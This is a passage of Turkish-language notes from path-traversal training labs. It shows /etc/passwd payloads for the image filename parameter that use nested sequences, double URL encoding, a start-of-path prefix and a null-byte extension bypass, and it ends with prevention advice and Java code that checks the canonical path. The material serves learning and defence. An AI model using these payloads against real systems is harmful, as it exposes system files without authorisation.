 ```
/image?filename=....//....//....//etc/passwd 
```

- `..//` iç içe geçmiş geçiş dizinleri.
- `..\\/` iç dizi çıkarıldığında basit geçiş dizinine geri döner.

### Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode

```
/image?filename=..%252f..%252f..%252fetc/passwd
```

- `../` → `%2e2e2f` → `%252e%252e%252f`
- standart dışı kodlamalar: `..%c0%af` veya `..%ef%bc%8f`

### Lab 5: File path traversal, validation of start of path

```
/image?filename=/var/www/images/../../../etc/passwd
```

Burada `filename=/var/www/images/../../../etc/passwd` kullanılır.

### Lab 6: File path traversal, validation of file extension with null byte bypass

```
/image?filename=../../../etc/passwd%00.png
```

## Nasıl Önlenir?

Kullanıcı tarafından sağlanan girdiyi dosya sistemi API'lerine geçirmekten tamamen kaçınmaktır. Eğer bundan kaçınılamıyorsa iki katmanlı savunma kullanılmalı:

1. Kullanıcı girdisi işlenmeden önce doğrulanmalı:
   - Whitelist ile karşılaştırılır.
   - Bu olmazsa alfanümerik karakterler gibi yalnızca izin verilen içerik içerdiğini doğrula.

2. Sağlanan girdi doğrulandıktan sonra:
   - Girdi temel dizine eklenir.
   - Yolu kanonikleştirmek için dosya sistemi API'si kullanılır.
   - Kanonikleştirilmiş yol beklenen dizinle başladığı doğrulanır.

```java
File file = new File(BASE_DIRECTORY, userInput);
if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
}
```
